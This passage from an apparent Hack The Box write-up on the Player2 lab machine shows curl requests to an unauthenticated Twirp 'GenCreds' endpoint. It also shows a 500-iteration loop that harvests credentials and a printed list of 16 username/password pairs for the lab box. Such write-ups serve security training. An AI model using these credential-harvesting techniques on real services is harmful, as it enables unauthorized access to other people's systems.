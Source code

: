 

There's a reference to snowscan, who is a fixture in the top five in the
[HTB Hall of Fame](https://www.hackthebox.eu/home/hof). More
importantly, it looks like creds.

I noticed that if I ran the same request again, I got a different
username and password:



    root@kali# curl -s --request POST --location "http://10.10.10.170:8545/twirp/twirp.player2.auth.Auth/GenCreds" --header "Content-Type:application/json" --data '{"number": 1}' | jq .
    {
      "name": "jkr",
      "pass": "ze+EKe-SGF^5uZQX"
    }



jkr is another brilliant HTB player, and a new password. I ran it 500
times to see how many different combinations came back. Each time in
this loop, it will use `curl` to get the JSON creds structure, and then
add a newline. The results will then be passed to `sort -u`, which will
get only the unique values. Then I'll use `tee` to save the unique creds
to `creds.json`, and then `wc -l` to see how many there are.



    root@kali# for i in {1..500}; do 
    >   curl -s -X POST -H "Content-Type:application/json" -d '{"number": 2}' http://player2.htb:8545/twirp/twirp.player2.auth.Auth/GenCreds;
    >   echo; 
    > done | sort -u | tee creds.json | wc -l
    16



The number posted doesn't seem to matter. This always returns 16
different sets of credentials.

Looking at the creds, its each combination of four users (I'm honored to
be one of them) and four passwords:



    root@kali# cat creds.json 
    {"name":"0xdf","pass":"Lp-+Q8umLW5*7qkc"}
    {"name":"0xdf","pass":"tR@dQnwnZEk95*6#"}
    {"name":"0xdf","pass":"XHq7_WJTA?QD_?E2"}
    {"name":"0xdf","pass":"ze+EKe-SGF^5uZQX"}
    {"name":"jkr","pass":"Lp-+Q8umLW5*7qkc"}
    {"name":"jkr","pass":"tR@dQnwnZEk95*6#"}
    {"name":"jkr","pass":"XHq7_WJTA?QD_?E2"}
    {"name":"jkr","pass":"ze+EKe-SGF^5uZQX"}
    {"name":"mprox","pass":"Lp-+Q8umLW5*7qkc"}
    {"name":"mprox","pass":"tR@dQnwnZEk95*6#"}
    {"name":"mprox","pass":"XHq7_WJTA?QD_?E2"}
    {"name":"mprox","pass":"ze+EKe-SGF^5uZQX"}
    {"name":"snowscan","pass":"Lp-+Q8umLW5*7qkc"}
    {"name":"snowscan","pass":"tR@dQnwnZEk95*6#"}
    {"name":"snowscan","pass":"XHq7_WJTA?QD_?E2"}
    {"name":"snowscan","pass":"ze+EKe-SGF^5uZQX"}
